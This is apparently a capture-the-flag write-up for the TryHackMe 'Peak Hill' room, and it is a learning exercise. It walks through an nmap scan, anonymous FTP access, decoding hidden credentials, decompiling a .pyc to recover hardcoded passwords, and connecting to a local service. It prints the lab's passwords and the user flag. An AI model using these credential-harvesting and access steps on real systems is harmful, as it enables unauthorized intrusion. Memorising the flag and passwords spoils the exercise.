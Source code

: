 # Matheus Jesus 24-05-2020

## Try Hack Me - [Peak Hill](https://tryhackme.com/room/peakhill)

### IP 10.10.70.51

### Enum

```sh
nmap -sC -sV -oN nmap 10.10.70.51
```

```text
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 May 15 18:37 test.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.5.217
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open   ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 04:d5:75:9d:c1:40:51:37:73:4c:42:30:38:b8:d6:df (RSA)
|   256 7f:95:1a:d7:59:2f:19:06:ea:c1:55:ec:58:35:0c:05 (ECDSA)
|_  256 a5:15:36:92:1c:aa:59:9b:8a:d8:ea:13:c9:c0:ff:b6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP

```sh
ls -la
# test.txt
# .creds
```

Creds is a binary, go to [this](http://icyberchef.com)

Download the file `download.dat`

```sh
python3 read.py > ssh_pass
# User and Password
# user: gherkin
# password: p1ckl3s_@11_@r0und_th3_w0rld
```

### SSH

There is a file cmd_service.pyc

use uncompyle6 to decompile cmd_service
There are credentials hardcoded

```python
from Crypto.Util.number import long_to_bytes
username = 1684630636
password = 2457564920124666544827225107428488864802762356L
user= long_to_bytes(username)
passwd= long_to_bytes(password)

print (user+”:”+passwd)
# dill
# n3v3r_@_d1ll_m0m3nt
```

```sh
# on remote
nc 127.0.0.1 7321
# use credentials for dill
cat /home/dill/user.txt
# f1e13335c47306e193212c98fc07b6a0
```
